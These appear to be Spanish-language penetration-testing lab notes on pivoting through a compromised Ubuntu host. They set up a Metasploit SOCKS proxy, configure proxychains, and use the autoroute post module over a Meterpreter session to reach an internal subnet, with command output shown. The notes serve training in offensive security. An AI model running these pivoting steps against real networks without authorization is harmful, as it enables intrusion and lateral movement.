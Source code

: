 ```shell-session

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```
Se deja en segundo plano con "bg"

Confirmaremos que está funcionando con:
```
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```


Tras iniciar el servidor SOCKS, configuraremos proxychains para enrutar el tráfico generado por otras herramientas como Nmap a través de nuestro pivot en el host Ubuntu comprometido. Podemos añadir la siguiente línea al final de nuestro archivo proxychains.conf, ubicado en /etc/proxychains.conf, si aún no está ahí:
```
nano /etc/proxychains.conf
	socks4 	127.0.0.1 9050
```

Finalmente, necesitamos indicarle a nuestro módulo socks_proxy que enrute todo el tráfico a través de nuestra sesión de Meterpreter. Podemos usar el módulo post/multi/manage/autoroute de Metasploit para agregar rutas a la subred 172.16.5.0 y luego enrutar todo el tráfico de nuestras cadenas proxy.

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
Esto lo mando a "bg" background.
